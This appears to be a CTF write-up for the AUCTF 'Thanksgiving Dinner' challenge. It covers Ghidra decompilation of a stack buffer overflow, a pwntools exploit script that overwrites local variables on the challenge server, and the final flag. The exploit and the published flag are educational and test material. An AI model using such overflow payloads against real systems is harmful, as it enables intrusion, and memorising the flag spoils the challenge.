

# Thanksgiving Dinner

## Description

> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
> 
> nc challenges.auctf.com 30011
> 
> Note: ASLR is disabled for this challenge

The corresponding binary is given.

## Solution

When connecting to the challenge, we see a string, then we can give an input but nothing happens.



Let's reverse the binary with [Ghidra](https://ghidra-sre.org/).

```c
undefined4 main(void)
{
  undefined *puVar1;
  
  puVar1 = &stack0x00000004;
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi!\nWelcome to my program... it\'s a little buggy...");
  vulnerable(puVar1);
  return 0;
}
```

`main` function calls function `vulnerable`...

```c
void vulnerable(void)
{
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

Function `vulnerable` defines a bunch of variables on the stack, prints some strings, asks for input with the highly vulnerable function `gets`, then checks the value of variables. If they match the predifined values, it prints the flag.

Therefore the exploit is quite straightforward: we overflow the buffer to replace the value of variables, and we're done.

```python
from pwn import *

sh = remote('challenges.auctf.com', 30011)

payload = b'0'*16 + b'\x2a\x00\x00\x00' + b'\x11\x11\x11\x11' + b'\x63\x74\x66\x00' + b'\xeb\xff\xff\xff' + b'\x37\x13\x00\x00'

sh.recvuntil("got!")
sh.sendline(payload)
sh.interactive()
```

Flag: `auctf{I_s@id_1_w@s_fu11!}`